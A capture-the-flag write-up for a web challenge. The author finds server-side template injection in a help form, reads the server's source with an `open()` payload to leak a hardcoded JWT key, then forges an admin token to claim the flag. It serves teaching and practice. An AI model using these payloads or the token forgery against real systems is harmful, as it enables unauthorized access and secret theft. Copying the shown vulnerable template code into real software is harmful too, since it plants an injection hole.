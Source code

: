 # WX01 - 1000pts

## Briefing

> Access the url at: <https://cfta-wx01.allyourbases.co> and find a way to login to the admin portal to get the flag. Note: You have been provided with the following credentials to help you: username: `tim` password: `berners-lee`

## Solution

1. There is a login form and a form to enter an email address to get help logging in. Attempting to login with the provided credentials, `tim:berners-lee`, and monitoring requests using Burp Suite shows that a POST request with the JSON `action` key set to `verify` and a `token` key that corresponds to a JSON Web Token.

2. I attempted to brute force decrypt this JWT, but it did not succeed.

3. I moved on to the help form. It has to serve a purpose and thus must be vulnerable to some form of input. I tried a [SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) similar to the Italian dish suggestion site from [WM04](../WM04/README.md). Crashing the help form using the SSTI string `{{foo()}}` prints this as part of a stacktrace:

    ```
    File "/var/task/lambda_function.py", line 18, in getHelp
    msg = Template(template).render(dir=dir, help=help, locals=locals, globals=globals, open=open)
    ```

    We have access to `locals()` and `globals()`. Also, `open()` lets us read an arbitrary file.

4. Use `{{open('lambda_function.py').read()}}` to dump the contents of `lambda_function.py`:

    ```python
    import json
    import urllib
    import jwt
    import os

    # JWT Key
    key = "aversion-chute-freeway-corporal"
    algo = "HS256"

    def getHelp(event):
        email = ''.join(event['email'])
        template = """
        <p>Your request has been submitted.</p>
        <p>You will receive an email at: %s</p>
        <p>This might take a reaaaaaaally long time though (forever).</p>
        """ % (urllib.parse.unquote(email).replace("<", "&lt;").replace(">", "&gt;"))
        msg = Template(template).render(dir=dir, help=help, locals=locals, globals=globals, open=open)
        msg = msg[:-len(msg)+700]
        return msg
    ```

    The JWT key is `aversion-chute-freeway-corporal`.

5. Login with credentials `tim:berners-lee` to get a JWT: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJ1c2VyIn0.j8wX114OSLEo2I4S6GQ4wQ4ZszXtyp0wFc0lpwc1yRQ`.

6. Use [jsonwebtoken.io](https://www.jsonwebtoken.io/) to change the `role` value from `user` to `admin` with the leaked secret key to get a new JWT:
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJhZG1pbiIsImp0aSI6IjUxZjE3OTJiLWMwYjItNGQ3NS04YjY5LTE0ZDM5ZjJkMGM2NiIsImlhdCI6MTYxNzcyNDk1MiwiZXhwIjoxNjE3NzI4NTUyfQ.QoopGSdFjhSe0gxHwEng-n6e9Z5FTP3_-iemndGcJVU`

7. Send a request with this JSON `{"action":"verify","token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJhZG1pbiIsImp0aSI6IjUxZjE3OTJiLWMwYjItNGQ3NS04YjY5LTE0ZDM5ZjJkMGM2NiIsImlhdCI6MTYxNzcyNDk1MiwiZXhwIjoxNjE3NzI4NTUyfQ.QoopGSdFjhSe0gxHwEng-n6e9Z5FTP3_-iemndGcJVU"}` to get the flag.

### Flag

`muLtiStagingIT710-12`
